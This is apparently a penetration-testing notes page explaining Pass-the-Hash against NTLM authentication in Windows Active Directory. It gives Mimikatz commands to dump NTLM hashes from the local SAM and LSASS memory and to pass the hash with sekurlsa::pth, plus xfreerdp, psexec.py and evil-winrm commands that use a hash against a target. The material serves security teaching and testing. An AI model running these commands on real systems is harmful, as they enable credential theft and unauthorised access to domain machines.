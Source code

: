 # Pass-the-Hash (NTLM)

Refer to the following resources for more information on the relevant topics:

1. &#x20;[pass-the-hash](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz/pass-the-hash) attack.
2. [NetNTLM](https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/netntlm) authentication

The Pass-the-Hash (PtH) method relies on the way the NTLM authentication process works, where a user can authenticate to a Windows domain configured to use NTLM authentication just by merely knowing the NTLM hash. Thus, we won't even have to crack the NTLM hashes as we will not require the actual password to authenticate successfully.

Mimikatz provides 2 methods to retrieve the NTML hashes:

a. Local SAM&#x20;

b. LSASS memory

Ensure to perform the necessary actions before we attempt to harvest the credentials. Refer to the [following](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz) for more information on each module.

```
mimikatz # privilege::debug
mimikatz # token::elevate
```

### (1) Local SAM

This method will only allow us to retrieve hashes from the local users on the machine only (No domain user's hashes).

{% code overflow="wrap" %}
```
mimikatz # lsadump::sam
```
{% endcode %}

Eg. We have found the username `test.user` with the NTLM hash value `1b2axxxx` :

```
mimikatz # lsadump::sam

RID  : xxxx
User : jarrett.gxz
  Hash NTLM: 1b2axxxx
```

### (2) LSASS memory

This method will allow us to retrieve any NTLM hashes for local users and any domain user that has recently logged onto the machine.

```
mimikatz # sekurlsa::msv
```

Eg. We have found the username `jarrett.gxz` in the domain `test.domain`, with the NTLM hash value `1b2axxxx` :

```
mimikatz # sekurlsa::msv

Authentication Id : xxxx
Session           : xxxx 
User Name         : jarrett.gxz
Domain            : TEST
...
        msv :
         [00000003] Primary
         * Username : test.user
         * Domain   : test.domain
         * NTLM     : 1b2axxxx
```

### Perform Pass-the-Hash

{% code overflow="wrap" %}
```
mimikatz # token::revert 

mimikatz # sekurlsa::pth /user jarrett.goh /domain:test.domain /ntlm:1b2axxxx /run:"<payload>"
```
{% endcode %}

> Note we first have to run `token::revert` to revert back to our original token privileges, as trying to pass-the-hash with an elevated token won't work

We can view the `sekurlsa::pth` module command as equivalent to using the [`runas /netonly`](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/enumeration/runas.exe) command with a hash instead of a password.

### PtH with Linux

Several tools exists in Linux, with built-in support to perform PtH. The following outlines a few:

1. `xfreerdp`

{% embed url="https://www.kali.org/blog/passing-hash-remote-desktop/" %}

```sh
$ xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

2. `psexec.py`

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-psexec" %}

```sh
$ psexec.py -hashes NTLM_HASH domain/<username>@<target>
```

3. `evil-winrm`

{% embed url="https://www.kali.org/tools/evil-winrm/" %}

```sh
$ evil-winrm -i <target> -u <username> -H NTLM_HASH
```


